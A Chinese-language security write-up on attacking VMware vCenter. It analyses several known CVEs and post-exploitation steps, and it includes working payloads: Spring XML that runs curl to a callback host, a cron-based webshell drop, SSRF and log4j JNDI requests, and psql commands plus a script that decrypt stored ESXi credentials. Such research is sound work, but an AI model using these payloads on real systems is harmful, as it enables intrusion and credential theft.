

# [](#vcenter-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)vCenter 漏洞利用

## [](#1-vsphere-%E8%83%8C%E6%99%AF%E4%BB%8B%E7%BB%8D)1 vSphere 背景介绍

vSphere，ESXi 和 vCenter 辨析：

-   VMware Inc

\*\*VMware Inc \*\* 是一家软件公司。它开发了许多产品，尤其是各种云解决方案 。它的云解决方案包括云产品，数据中心产品和桌面产品等。

-   vSphere

**vSphere** 是在数据中心产品下的一套软件。vSphere 类似微软的 Office 办公套件，Office 办公套件包含了许多软件如 Word，Excel，Access 等。和 Office 一样，vSphere 也是一个软件的集合。它包括了 vCenter Server， ESXi 和 vSphere client，是整套虚拟化部署方案的总和。

-   ESXi

**ESXi** 是 vSphere 中最重要的一个组件。ESXi 是虚拟化服务。所有的虚拟机都是运行在 ESXi 服务上面。

-   vSphere Client

**vSphere (web) client** 是一个管理平台，它能够直接管理多个不同的 ESXi 主机，包含许多进阶功能：集群故障转移等。而 ESXi 自带的管理平台只能管理自身所处的 ESXi 主机。而 vSphere client 有更加详细的性能监控，批量更新接管所有 ESXi 系统版本。通过资源池也可以规划虚拟机资源占用。

-   vCenter Server

在 ESXi 6.0 之前是通过 C/S 架构来管理 ESXi 集群的，没有 web 端，且安装环境较为苛刻，必须为 Server 版本的服务器才可以安装。在 6.0 版本之后，官方已经取消了 C/S 架构的客户端，转而采用了 web 管理平台，又被称之为 vSphere web client。而部署了 vSphere web client 的服务器被称之为 **vCenter Server**。

官方推荐将打包好的 Client 与 Server 应用部署在 VMware 自家的 Photon 系统下，其安装包命名为：VMware vCenter Server Appliance，简称为：**VCSA**。


## [](#2-%E5%B8%B8%E8%A7%81%E6%BC%8F%E6%B4%9E)2 常见漏洞

### [](#21-%E7%89%88%E6%9C%AC%E4%BF%A1%E6%81%AF%E6%8E%A2%E6%B5%8B)2.1 版本信息探测

通过调用 VMWare Sphere 组件的 SOAP API，可以获取其版本信息，XML 数据如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```xml<br><?xml version="1.0" encoding="UTF-8"?><br><soap:Envelope<br>    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"<br>    xmlns:xsd="http://www.w3.org/2001/XMLSchema"<br>    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><br>    <soap:Header><br>        <operationID>00000001-00000001</operationID><br>    </soap:Header><br>    <soap:Body><br>        <RetrieveServiceContent<br>            xmlns="urn:internalvim25"><br>            <_this xsi:type="ManagedObjectReference" type="ServiceInstance">ServiceInstance</_this><br>        </RetrieveServiceContent><br>    </soap:Body><br></soap:Envelope><br>``` |


Nuclei 相关模板：

-   `/nuclei-templates/technologies/vmware/vmware-detect.yaml`


### [](#22-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96)2.2 任意文件读取

影响版本：`Vmware vCenter Server <= 6.5.0`

Fofa Dork：`title="ID_VC_Welcome"`

VMware vCenter 存在任意文件读取漏洞，可读取 vCenter 配置文件获得管理帐号密码进而控制 vCenter 平台及其管理的虚拟机集群。

由于 EAM 用户运行该存在漏洞的服务（非域用户），因此不存在 NTLM Relay 等中继攻击风险。

由于不同的系统版本，数据库配置文件（`vcdb.properties`）存放位置不同，根据[官方文档](https://kb.vmware.com/s/article/7960893?lang=zh_cn)，大体可以分为：

-   对于 vCenter Server 5.5 及更低版本：
    -   Windows 2008 - `C:\ProgramData\VMware\VMware VirtualCenter`
    -   其他 Windows 版本 - `C:\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\`
-   对于 vCenter Server 6.0、6.5、6.7：
    -   `C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx`

POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>GET /eam/vib?id={{path}}\vcdb.properties HTTP/1.1<br>Host: {{Hostname}}<br>``` |

nuclei 中对应的 poc：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi.yaml`
-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi-linux.yaml`

### [](#23-cve-2021-21972)2.3 CVE-2021-21972

#### [](#231-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.3.1 漏洞利用

默认启用的 vROps 插件（com.vmware.vropspluginui.mvc）ServicesController 类的 uploadova 接口存在未授权访问，可利用路径穿越将文件解压至特定目录实现 getshell。

影响版本：

-   `7.0 <= vCenter Server < 7.0 U1c`
-   `6.7 <= vCenter Server < 6.7 U3l`
-   `6.5 1e <= vCenter Server < 6.5 U3n`
-   `4.x <= Cloud Foundation (vCenter Server) < 4.2`
-   `3.x <= Cloud Foundation (vCenter Server) < 3.10.1.2`

POC：

-   `/nuclei-templates/cves/2021/CVE-2021-21972.yaml`

EXP：

-   [https://www.exploit-db.com/exploits/49602](https://www.exploit-db.com/exploits/49602)

#### [](#232-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)2.3.2 漏洞分析

定位到存在漏洞的 Jar 包：`/etc/vmware/vsphere-ui/vc-packages/vsphere-client-serenity/com.vmware.vrops.install-6.x.x.xx000/plugins/vropsplugin-service.jar`


注意到第 463 行，直接将 TAR 的文件名与 `/tmp/unicorn_ova_dir` 拼接并写入文件。如果文件名内存在 `../`，可将文件解压至 `vsphere-ui` 用户有权限的目录。切入该用户并查找可写目录：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>su vsphere-ui<br>find / -writable -type d \|& grep -v "Permission denied"<br>``` |

其中 `.ssh` 目录可写，因此，最为常见的思路就是写入公钥，并利用该用户登录。但是该方式存在一定的局限，首先看一下 shadow 文件：


看到密码过期时间为 90 天，因此在安装 90 天后即使写入了公钥登录也会提示密码过期，需要提供原密码并修改密码。此外，`vsphere-ui` 用户的第二项为 `!`，这表示该用户未设置密码（与空密码不同），所以也就没法修改密码，因此，当密钥过期后，就无法再次登录。

另一种思路就是写入 Webshell。首先需要遍历找出存在有 jsp 的 web.xml 并且目录可写：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>grep "<servlet-name>jsp</servlet-name>" $(find / -name "*web.xml")<br>``` |

最终确定了如下几个 linux 下的存放位置：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br># vCenter 6.5/6.7 < 13010631<br>/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/%d/0/h5ngc.war/resources/<thefile><br><br># vCenter 6.7 >= 13010631<br>/usr/lib/vmware-vsphere-ui/server/static/resources/libs/<thefile><br><br># vCenter 7.0，其中 resources15863815 动态生成，可以通过访问 /ui 可以获取该目录信息<br>/usr/lib/vmware-vsphere-ui/server/static/resources15863815/libs/<thefile><br>``` |

由 `/usr/lib/vmware-vsphere-ui/server/configuration/tomcat-server.xml` 查到监听端口为 5090，再由 rhttpproxy 反向代理找到 web 访问路径：


最后将 webshell 释放至 `/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/xx/0/h5ngc.war/resources/` 目录或其子目录，即可解析并由 `https://IP/ui/resources/webshell.jsp` 访问

该路径中的 xx 并非是固定数值，会随着重装重启等行为发生改变，所以构造上传包时可以暴力批量添加，并探测是否上传成功。

此外，6.7U2 及之后的版本，会在服务启动时判断如果存在 work 目录就删除，也就是说 Web 是跑在内存里面的。这时对于 6.7U2 及更新的 6.7 版本可以将 webshell 释放至 `/usr/lib/vmware-vsphere-ui/server/static/resources/libs/` 目录作为后门，待其重启后会被加载运行。对于 7.0 版本 static 后面的 resources 会跟一串动态数字路径，能够在请求的返回包中获取到。

针对 Windows 版本，可以在目标服务器上写入 JSP webshell 文件，由于服务是 System 权限，所以可以任意文件写。常用的目录为：`C:\ProgramData\VMware\vCenterServer\data\perfcharts\tc-instance\webapps\statsreport\`，访问 `https://IP/statsreport/xxx.jsp` 即可。

其它常见路径可以参考：[vCenter2021几个漏洞及后渗透](https://daidaitiehanhan.github.io/2022/04/18/vCenter2021%e5%87%a0%e4%b8%aa%e6%bc%8f%e6%b4%9e%e5%8f%8a%e5%90%8e%e6%b8%97%e9%80%8f/)

### [](#24-cve-2021-21985)2.4 CVE-2021-21985

#### [](#241-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.4.1 漏洞利用

默认启用的 Virtual SAN Health Check 插件（vsan-h5-client.zip）`/rest/*` 接口存在未授权访问，可利用不安全的反射调用实现 RCE。

影响版本：

-   7.0 <= vCenter Server < 7.0 U2b
-   6.7 <= vCenter Server < 6.7 U3n
-   6.5 <= vCenter Server < 6.5 U3p
-   4.x <= Cloud Foundation (vCenter Server) < 4.2.1
-   3.x <= Cloud Foundation (vCenter Server) < 3.10.2.1

POC：

-   `/nuclei-templates/cves/2021/CVE-2021-21985.yaml`

EXP：

-   [https://github.com/r0ckysec/CVE-2021-21985](https://github.com/r0ckysec/CVE-2021-21985)

#### [](#242-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)2.4.2 漏洞分析

##### [](#%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8)出网利用

首先定位到 `vsan-h5-client` 插件存放位置：`find / -name '*vsan*' | grep 'h5'`，最终确定在 `/usr/lib/vmware-vpx/vsan-health/ui-plugins/vsan-h5-client.zip` 目录下。

下载，解压并反编译其中的 jar 包，由于漏洞情报中描述为未授权访问，首先在 `h5-vsan-context.jar` 的 `web.xml` 中寻找相关线索，在已经修复的版本中，已经添加了相应的 filter：


在 `h5-vsan-service.jar` 中找到 `com.vmware.vsan.client.services.AuthenticationFilter`，如果未认证，则直接返回 401。


另一处变动在 `h5-vsan-service.jar` 中 `ProxygenController` 类的 `invokeService` 方法：


添加了校验，检测反射调用的方法是否为带有 `TsService` 注解，启用了白名单机制。因此基本可以确定漏洞点位于该类中。

`TsService` 注解源码：


向上寻找到定义 `@RequestMapping` 路由的 `Controller`，可以看到在请求路径中获取 Bean 名称或者类名和方法名称，接着从 POST 数据中获取 `methodInput` 列表作为方法参数，接着进入 `invokeService` 方法：


`invokeServer` 先获取了 Bean 实例，接着获取该实例的方法列表，比对方法名和方法参数长度后，将用户传入的参数进行了一个简单的反序列化后利用进行了调用。

所以接下来就是在 Spring 工厂创建的 bean 里查找危险方法构建利用链了，在 `vsan-h5-client/plugins/h5-vsan-service/META-INF/spring/base/*.xml` 配置文件中找到 bean 的定义，所有 scope 都是缺省的 `singleton` 而且没有配置 `lazy-init`，也就是说这些 bean 都会在 spring 项目启动时单例加载。

漏洞作者所使用的 Bean 是 `vmodlContext`，对应 jar 为 `/etc/vmware/vsphere-ui/vc-packages/vsphere-client-serenity/com.vmware.vrops.install-6.x.x.xx000/plugins/vropsplugin-service.jar`，类是 `com.vmware.vim.vmomi.core.types.impl.VmodContextImpl`，其中的 `loadVmodlPackage` 方法代码如下：


其中会通过 `NonValidatingClassPathXmlApplicationContext` 加载 `contextPath`，而该类继承自：`ClassPathXmlApplicationContext`：


因此可以构造远程加载解析 xml 中的 SpEL 表达式进而执行命令。

需要注意的是，在 `SpringContextLoader` 的 `getContextFileNameForPackage` 会将路径中的 `.` 替换为 `/`，所以无法指定一个正常的 IPv4 地址，但是可以利用数字型 IP 绕过：


XML 文件内容及攻击效果如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```xml<br><?xml version="1.0" encoding="UTF-8"?><br><beans xmlns="http://www.springframework.org/schema/beans"<br>       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>       xmlns:context="http://www.springframework.org/schema/context"<br>       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://www.springframework.org/schema/context https://www.springframework.org/schema/context/spring-context.xsd"><br><br>    <bean id="pb" class="java.lang.ProcessBuilder"><br>        <constructor-arg><br>            <list><br>                <value>/bin/bash</value><br>                <value>-c</value><br>                <value>curl http://dj0esgxds3fv9m4a0a6dzorr0i69uy.oastify.com</value><br>            </list><br>        </constructor-arg><br>        <property name="whatever" value="#{pb.start()}" /><br>    </bean><br></beans><br>``` |


##### [](#%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8)不出网利用

若要利用此漏洞，本质上需要获取一个 XML 文件的内容，而 Java 的 URL 并不支持 data 协议，那么需要返回内容可控的 SSRF 或者文件上传漏洞。这里利用的是返回内容可控的 SSRF 漏洞。漏洞位于 `/usr/lib/vmware-vpx/vsan-health/pyMoVsan/` 下的 vSAN Health 组件中 `VsanHttpProvider.py` 存在一个未授权访问 SSRF。


漏洞点是 238 行 `urlopen` 库函数进行 HTTP 请求，接着将返回内容在内存中进行解压，并且匹配文件名为 `.*offline_bundle.*` 的内容并进行返回。Python 的 `urlopen` 支持 data 协议，所以可以构造一个压缩包并 Base64 编码，构造 data 协议的 URL：


在利用的过程中，将 IP 地址替换为 localhost 即可防止 `.` 被替换。由于这个路由在 6.5 版本的 vSAN Health 不存在，所以无法在 6.5 版本上不出网利用。


现在虽然不用进行外网请求，但是仍然无法获取命令回显。通过查看 Bean 列表，发现存在名为 `systemProperties` 的 Bean。同时这个 Bean 也存在方法可以获取属性内容：


所以在执行 SpEL 时，可以将命令暂存到 `systemProperties` 中，然后利用 `getProperty` 方法获取回显。最终的 context.xml 内容为：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>``` | ```xml<br><beans xmlns="http://www.springframework.org/schema/beans"<br>       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>       xsi:schemaLocation="<br>     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd"><br>    <bean id="pb" class="java.lang.ProcessBuilder"><br>        <constructor-arg><br>          <list><br>            <value>/bin/bash</value><br>            <value>-c</value><br>            <value><![CDATA[ ls -la /  2>&1 ]]></value><br>          </list><br>        </constructor-arg><br>    </bean><br>    <bean id="is" class="java.io.InputStreamReader"><br>        <constructor-arg><br>            <value>#{pb.start().getInputStream()}</value><br>        </constructor-arg><br>    </bean><br>    <bean id="br" class="java.io.BufferedReader"><br>        <constructor-arg><br>            <value>#{is}</value><br>        </constructor-arg><br>    </bean><br>    <bean id="collectors" class="java.util.stream.Collectors"></bean><br>    <bean id="system" class="java.lang.System"><br>        <property name="whatever" value="#{ system.setProperty(&quot;output&quot;, br.lines().collect(collectors.joining(&quot;\n&quot;))) }"/><br>    </bean><br></beans><br>``` |

最终漏洞利用的结果：


### [](#25-cve-2021-22005)2.5 CVE-2021-22005

#### [](#251-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.5.1 漏洞利用

Analytics 服务相关端点存在目录穿越写文件，可以直接上传 Webshell 文件，并获取 root 权限。

影响版本：

-   `7.0 <= vCenter Server < 7.0 U2c`
-   `6.7 <= vCenter Server < 6.7 U3o`

POC：

-   `/nuclei-templates/cves/2021/CVE-2021-22005.yaml`

EXP：

-   [https://github.com/r0ckysec/CVE-2021-22005](https://github.com/r0ckysec/CVE-2021-22005)
-   [https://github.com/shmilylty/cve-2021-22005-exp](https://github.com/shmilylty/cve-2021-22005-exp)

#### [](#252-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)2.5.2 漏洞分析

两种触发方式，一种是开启 CEIP (Customer Experience Improvement Program) 时，通过 log4j 记录日志的功能实现任意文件写入，另一种是通过 Velocity 模板注入执行代码。这个漏洞拿到的权限是 `root` 权限。

##### [](#asynctelemetrycontroller-%E6%BC%8F%E6%B4%9E)AsyncTelemetryController 漏洞

根据官方的漏洞通告可以发现，存在漏洞的 API 路径为：`/analytics/telemetry/ph/api/hyper/send`。而对应路径的 rhttpproxy 策略在 vCenter 各版本中也不尽相同，有些版本只有 `/analytics/telemetry/` 可以直接访问，有些版本则 `/analytics/` 下均可访问：


根据 poc 提示接口 `/analytics/telemetry/ph/api/hyper/send`，找到对应的类：

`analytics-push-telemetry-server-6.7.0.jar#com.vmware.ph.phservice.push.telemetry.server.AsyncTelemetryController.class`


对 `/ph/api/hyper/send` 路径的 `_v`、`_c`、`_i` 请求参数分别绑定给变量 `version`、`collectorId`、`collectorInstanceId`。跟进 `handleSendRequest` 函数，最终将调用 `telemetryService.processTelemetry()` 方法：


继续进入 `TelemetryService.processTelemetry()`，上面刚刚创建的 `TelemetryRequest` 将被提交到一个队列并在不久之后在 `TelemetryRequestProcessorRunnable` 处执行：


`TelemetryLevelBasedTelemetryServiceWrapper` 类 `processTelemetry` 方法会调用 `DefaultTelemetryLevelService` 类 `getTelemetryLevel` 方法获取 `telemetryLevel`：


继续跟进看到需要 `isCeipEnabled` 不为默认值 `false` 才会继续：


随后调用 `LogTelemetryService` 类 `processTelemetry` 方法，利用 log4j 写日志文件至 `/var/log/vmware/analytics/prod/` 目录，文件内容为 POST 请求体数据：


日志文件存储在 `/var/log/vmware/analytics/prod/_c<collector id>_i<instance name>.json`


并且因为 filename 中同时包含 collectorId 和 collectorInstanceId，所以可以在路径遍历中添加 `../` 字符，在另一个文件夹中随意创建一个文件的情况。但是，在 Linux 系统中，如下面的路径中含有不存在的文件夹，在创建文件时会报错：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>/var/log/vmware/analytics/prod/_c_i/../../../../../../tmp/POC<br>``` |

如何远程创建该临时文件内，经过可以在 `_i` 参数前加一个斜杠，目录会被创建。之后就可以通过目录拼接的形式进行文件写入。


目前已经可以控制任意文件写入，但是没有办法控制文件后缀 `.json`，对于 linux 的机器可以写入计划任务来执行写 shell 的操作：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>POST /analytics/telemetry/ph-stg/api/hyper/send?_c=&_i=/../../../../../../etc/cron.d/POC HTTP/1.1<br>Host: IP<br>Content-Type: application/json<br>Content-Length: 144<br><br>* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=\|base64 -d >/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp<br>``` |

待定时任务启动后，可在 `https://localhost/idm/..;/hello.jsp` 可以访问到 shell。

(这里的`/..;/`是因为Tomcat会将`/..;/`视作`/../`，可以利用该特性绕过 vCenter 某些版本的 `rhttpproxy` 的访问限制)。

##### [](#dataappagentcontroller-%E6%BC%8F%E6%B4%9E)DataAppAgentController 漏洞

官方提供的 POC 中还涉及到一个接口：`/analytics/telemetry/ph/api/dataapp/agent`，而在新版本的代码中，已经将端点： `/dataapp/agent` 相关代码全部删除，因此确定漏洞的位置。

最终通过`VelocityHelper.executeVelocityExpression` 触发 `velocity` 表达式执行。


最终 `@testbnull` 发现可以通过上下文可用的 `$GLOBAL-logger`，利用 `setFile` 方法临时修改日志路径到 Web 路径的方式，写入 WebShell 实现 RCE。

### [](#26-provider-logo-ssrf-%E6%BC%8F%E6%B4%9E)2.6 provider-logo SSRF 漏洞

#### [](#261-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.6.1 漏洞利用

VMware vCenter v 7.0.x 的某些版本中存在未授权 SSRF 漏洞，可以读取本地文件造成敏感信息泄露；读取远程文件形成 XSS 漏洞。

POC & EXP：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-ssrf.yaml`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```http<br>GET /ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=file:///etc/passwd HTTP/1.1<br>Host: {{target}}<br>``` |

读取 `/etc/passwd`：


读取 postgresql 配置文件：


#### [](#262-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)2.6.2 漏洞分析

漏洞 url 为 `/ui/vcav-bootstrap/rest/vcav-providers/provider-logo`，通过 500 错误获取代码调用栈，最后在 `ProvidersController.getProviderLogo` 执行时出错。定位到相关 jar 包：`/etc/vmware/vsphere-ui/cm-service-packages/com.vmware.cis.vsphereclient.plugin/com.vmware.h4.vsphere.client-0.4.1.0/plugins/h5-vcav-bootstrap-service.jar`。

`com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()` 函数代码比较简单，通过 `URLConnection` 读取 URL 并解析。


### [](#27-log4j2-jndi-%E6%B3%A8%E5%85%A5)2.7 log4j2 JNDI 注入

VMware 的产品同样也受 log4j2 漏洞的影响，具体可以参考：[VMSA-2021-0028](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)。

POC：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-log4j-jndi-rce.yaml`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```http<br>GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1<br>Host: {{Hostname}}<br>X-Forwarded-For: ${jndi:${lower:d}n${lower:s}://${env:hostName}.{{interactsh-url}}}<br>``` |

具体漏洞成因在此就不再赘述。

## [](#3-%E5%90%8E%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95)3 后渗透测试

### [](#31-saml-%E8%AF%81%E4%B9%A6%E7%99%BB%E5%BD%95)3.1 SAML 证书登录

vSphere 5.0 版本引入了 SSO，支持使用 SAML 作为授权服务支持。当用户登录服务时，该服务会将身份验证请求转发给 SAML 。SAML 验证用户凭据是否正确以及他们是否有权访问指定的服务。

在 vCenter 中从 `/storage/db/vmware-vmdir/data.mdb` 提取 IdP 证书，为管理员用户创建 SAML 请求，最后使用 vCenter server 进行身份验证并获得有效的管理员 cookie。

首先需要从 vCenter 获得数据库文件：

-   Linux：`/storage/db/vmware-vmdir/data.mdb`
-   Windows：`C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb`


利用 SAML [解密脚本](https://github.com/horizon3ai/vcenter_saml_login)生成 Cookie：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 vcenter_saml_login.py -p data.mdb -t 192.168.0.92<br>``` |


登录 VCSA 管理面板，访问 `https://IP/ui`，并设置 Cookie 为上面的返回结果。


### [](#32-cve-2022-22948-%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93)3.2 CVE-2022-22948 权限配置不当

vCenter Server 包含由于文件权限不正确而导致的信息泄露漏洞，可以利用此漏洞在对 vCenter Server 具有非管理员访问权限的情况下获取敏感信息。

通过第二节描述的漏洞获取的 webshell 权限通常为：`vphere-ui`，归属于用户组：`cis`。在 vCenter 系统的研究中，存在一个包含客户端 `postgresDB` 的明文登录凭证的文件：`/etc/vmware-vpx/vcdb.properties`。任何属于 `cis` 组的用户都可以访问这个文件。即：任何属于 `cis` 组的用户都可以连接到 vCenter 的 Postgres 数据库。

获取 postgresql 配置文件信息：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br># linux<br>cat /etc/vmware-vpx/vcdb.properties<br># or<br>cat /etc/vmware/service-state/vpxd/vcdb.properties<br><br># windows<br>type  C:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties<br>``` |

连接数据库，读取 vpxuser 密钥：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># linux<br>/opt/vmware/vpostgres/current/bin/psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc<br><br>#windows<br>C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc<br>``` |


获取 `symkey.dat`：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># linux<br>cat /etc/vmware-vpx/ssl/symkey.dat<br><br># windows<br>type C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat<br>``` |

解密 vpxuser 密码

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 decrypt.py symkey.dat password.enc password.txt<br>``` |


解密脚本如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>70<br>71<br>72<br>73<br>74<br>75<br>76<br>``` | ```python<br>import base64<br>import sys<br><br>from Crypto.Cipher import AES<br><br><br>usage = """<br>Where is symkey.dat<br>Windows：C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat<br>Linux：/etc/vmware-vpx/ssl/symkey.dat<br><br><br>Where is psql<br>Windows: C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe<br>Linux: /opt/vmware/vpostgres/current/bin/psql<br>psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc<br><br>python3 decrypt.py symkey.dat password.enc password.txt<br>"""<br><br><br>def pkcs7unpadding(text):<br>    length = len(text)<br>    padding_length = ord(text[-1])<br>    return text[0:length-padding_length]<br><br><br>def decrypt(key, enc_passwords):<br>    passwords = []<br>    key_bytes = bytes.fromhex(key)<br>    for enc_password in enc_passwords:<br>        content = base64.b64decode(enc_password)<br>        iv_bytes = content[:16]<br>        enc_password_bytes = content[16:]<br>        cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)<br>        password_bytes = cipher.decrypt(enc_password_bytes)<br>        password = str(password_bytes, encoding='utf-8')<br>        password = pkcs7unpadding(password)<br>        passwords.append(password)<br>    return passwords<br><br><br>def save_decrypt_password(path, passwords):<br>    data = '\n'.join(passwords)<br>    with open(path, 'w') as file:<br>        file.write(data)<br><br><br>def get_encrypt_password(path):<br>    encrypt_passwords = []<br>    with open(path) as file:<br>        for line in file:<br>            encrypt_password = line.strip('*').strip()<br>            encrypt_passwords.append(encrypt_password)<br>    return encrypt_passwords<br><br><br>def get_key(path):<br>    with open(path) as file:<br>        key = file.read().strip()<br>        return key<br><br><br>def main():<br>    if len(sys.argv) != 4:<br>        print(usage)<br>        exit(1)<br>    key = get_key(sys.argv[1])<br>    encrypt_passwords = get_encrypt_password(sys.argv[2])<br>    save_path = sys.argv[3]<br>    passwords = decrypt(key, encrypt_passwords)<br>    save_decrypt_password(save_path, passwords)<br><br><br>if __name__ == '__main__':<br>    main()<br>``` |

上述获取到的 `vpxuser` 是在 ESXi 与 vCenter 的第一次连接中自动创建的高权限用户。

vpxuser 用户是默认在 ESXi 上创建的，它是根据最小权限原则设计的，所以它可以由 vCenter 管理而不使用 root。该用户是通过一个名为 `vpxd` 的进程创建的，它负责 ESXi 和 vCenter 之间的通信。

关于这个用户的信息并不多，在 ESXi 上的 `passwd` 文件中发现了一个关于它的注释 - `VMware VirtualCenter administrator account`。


最后，使用 vpxuser 凭证通过 SSH 连接到具有高权限的被管理的 ESXi，并可以对 ESXi 完全控制：提取虚拟机的内存、列出库存、获取敏感文件、访问敏感信息等。

### [](#33-cve-2021-22015---vcenter-%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E)3.3 CVE-2021-22015 - vCenter 提权漏洞

分析 vCenter 中以 root 权限运行的进程，发现如下在同一个文件夹下运行的 java 进程均链接到同一个文件：


查看 `/usr/lib/vmware-vmon/java-wrapper-vmon` 修改权限：



cis 用户组可以修改该文件。在 `/etc/group` 下查看 cis 用户组中的相关用户：


发现 `vsphere-ui` 用户在其中，说明该用户可以修改 java-wrapper-vmon 文件。配合第二节的文件上传漏洞，在 `vsphere-ui` webshell 的权限下，将后门代码添加到 java-wrapper-vmon 中，并重启服务(`service-control --start --all`)，可以以 root 权限运行后门代码，达到提权的目的。

### [](#34-%E6%8F%90%E6%9D%83)3.4 提权

#### [](#341-cve-2021-3156---sudo-%E6%8F%90%E6%9D%83)3.4.1 CVE-2021-3156 - sudo 提权

适用版本：vCenter 7.0。sudo 提权漏洞将 `vsphere-ui` 权限提升到 `root` 权限。

vCenter 镜像是基于 [Photon OS](https://github.com/vmware/photon) 构建的。而旧版本的 vCenter 使用的是 `Photon 1.0`，在 vCenter 7 中使用的则是 `Photon 3.0`。


vCenter 7 的 glibc 库版本为 2.28，`sudo` 版本从 1.8.x 到 1.9.x 均存在。

根据 `@Cedric Halbronn` 的研究，在 `Photon OS 3.0` 上的 `cmnd size` 与 `defaults offset` 均与 CentOS 7 上的数值不一样，通过修改上面的块大小与偏移量，可以实现在 vCenter7 上的 sudo 提权，具体的 EXP：[exploit\_defaults\_mailer.py](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_defaults_mailer.py)

参考：

